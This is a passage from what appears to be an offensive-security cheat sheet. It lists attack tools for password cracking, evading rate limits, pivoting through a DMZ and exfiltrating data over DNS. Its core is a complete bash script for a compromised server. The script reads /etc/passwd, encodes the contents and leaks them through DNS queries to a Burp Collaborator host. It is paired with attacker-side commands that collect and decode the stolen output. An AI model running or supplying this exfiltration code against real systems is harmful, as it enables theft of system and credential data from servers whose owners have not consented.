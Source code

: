 https://hashcat.net/hashcat/
<br># Hashcat is a password recovery tool.
<br>```hashcat -m 0 -a 0 hashes.txt passwords.txt```

https://github.com/ustayready/fireprox
<br># Rotate the source IP address in order to bypass rate limits

### Exfiltration
https://github.com/vp777/procrustes
<br># A bash script that automates the exfiltration of data over dns

https://github.com/sensepost/reGeorg
<br># The successor to reDuh, pwn a bastion webserver and create SOCKS proxies through the DMZ. Pivot and pwn.

https://github.com/fbkcs/ThunderDNS
<br># This tool can forward TCP traffic over DNS protocol. Non-compile clients + socks5 support.

<br># Pure bash exfiltration over dns
<br>## Execute on target server (replace YOURBCID)
```
CMD="cat /etc/passwd"
HID=$(tr -dc A-Za-z0-9 </dev/urandom | head -c 5)
CMDID=$(tr -dc A-Za-z0-9 </dev/urandom | head -c 5)
BC="YOURBCID.burpcollaborator.net"
D="$HID-$CMDID.$BC"
M=$($CMD 2>&1); T=${#M}; O=0; S=30; I=1; while [ "${T}" -gt "0" ]; do C=$(echo ${M:${O}:${S}}|base64); C=${C//+/_0}; C=${C//\//_1}; C=${C//=/_2}; host -t A $I.${C}.$D&>/dev/null; O=$((${O}+${S})); T=$((${T}-${S})); I=$((I+1)); done
```

<br>## Execute on attacker machine (replace YOURBIID) and extract Burp Collaborator results
```
BCPURL="https://polling.burpcollaborator.net/burpresults?biid=YOURBIID"
RESULTS=$(curl -sk "${BCPURL}")
```
<br>## Get IDs available
```
echo "${RESULTS}" | jq -cM '.responses[]' | while read LINE; do if [[ $LINE == *'"protocol":"dns'* ]]; then echo ${LINE} | jq -rM '.data.subDomain' | egrep --color=never "^[[:digit:]]+\..*\..*\.$BC$"; fi; done | sed -r 's/^[[:digit:]]+\.[^.]+\.([^.]+)\..*/\1/g' | sort -u
```
<br>## Update ID and get command result (repeat for each ID)
```
ID="xxxxx-xxxxx"
echo "${RESULTS}" | jq -cM '.responses[]' | while read LINE; do if [[ $LINE == *'"protocol":"dns'* ]]; then echo ${LINE} | jq -rM '.data.subDomain' | egrep "^[[:digit:]]+\..*\..*\.$BC$"; fi; done | egrep "$ID" | sort -t. -k3 -g | sed -r 's/^[[:digit:]]+\.([^.]+)\..*/\1/g' | while read i; do i=${i//_0/+}; i=${i//_1/\/}; i=${i//_2/=}; echo ${i} | base64 -d; done
```

## Manual

### Payloads
https://github.com/swisskyrepo/PayloadsAllTheThings
<br># PayloadsAllTheThings
